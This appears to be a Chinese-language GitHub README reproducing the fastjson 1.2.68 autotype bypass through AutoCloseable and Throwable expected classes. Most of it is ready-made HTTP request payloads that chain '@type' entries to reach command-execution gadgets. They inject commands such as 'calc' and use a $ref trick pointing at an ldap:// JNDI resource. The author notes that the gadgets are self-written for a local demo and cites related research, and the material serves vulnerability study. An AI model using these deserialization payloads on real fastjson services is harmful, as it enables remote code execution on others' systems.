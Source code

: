 ## fastjson-bypass-autotype-1.2.68
fastjson因为exceptClass期望类的特性导致可以通过AutoCloseable和Throwable绕过autotype。

## 复现
运行`org.chabug.fastjson.DemoApplication`，访问http://localhost:8082/json

AutoCloseable绕过
```text
POST /parseObject HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 131

{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecCloseable",
  "domain": "y4er.com | calc"
}
```
Throwable绕过
```text
POST /parseObject HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 127

{
  "@type":"java.lang.Exception",
  "@type": "org.chabug.fastjson.exploit.ExecException",
  "domain": "y4er.com | calc"
}
```
拓展AutoCloseable绕过 Runnable
```text
POST /parseObject HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 174

{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecRunnable",
  "eval":{"@type":"org.chabug.fastjson.exploit.EvalRunnable","cmd":"calc"}
}
```
Readable
```text
POST /parseObject HTTP/1.1
Host: test.local:8082
Connection: close
Content-Type: application/json
Content-Length: 174

{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.ExecReadable",
  "eval":{"@type":"org.chabug.fastjson.exploit.EvalReadable","cmd":"calc"}
}
```

使用$ref拓展攻击面，使用parse()解析的也能触发任意getter。来自于[@threedr3am](https://github.com/threedr3am/learnjavabug/commit/ea61297cf7b2125ecae0064d2b8061a9e32db1e6) 师傅
```text
POST /parse HTTP/1.1
Host: php.local:8082
Connection: close
Content-Type: application/json
Content-Length: 159

{
  "@type":"java.lang.AutoCloseable",
  "@type": "org.chabug.fastjson.exploit.RefAnyGetterInvoke",
  "resourceName":"ldap://localhost:1389/Calc",
  "instance":{"$ref":"$.instance"}
}
```

## 说明
用到的`org.chabug.fastjson.exploit.ExecException`和`org.chabug.fastjson.exploit.ExecCloseable`都是我自己写的，在其getter中实现了`Runtime.getRuntime().exec()`，真正要利用还是得自己找到可用的gadget。

另外浅蓝师傅、Kingkk师傅以及l1nk3r师傅的文章中已经说的很明白了，走JNDI注入困难，找找写文件什么的还行，**我也还在寻找gadget的过程中，欢迎师傅们加我一起交流**。

## 参考
1. https://github.com/iSafeBlue/fastjson-autotype-bypass-demo
2. https://b1ue.cn/archives/348.html
3. https://b1ue.cn/archives/382.html
4. [浅谈下Fastjson的autotype绕过](https://www.kingkk.com/2020/06/%E6%B5%85%E8%B0%88%E4%B8%8BFastjson%E7%9A%84autotype%E7%BB%95%E8%BF%87/)
5. https://forum.90sec.com/t/topic/1115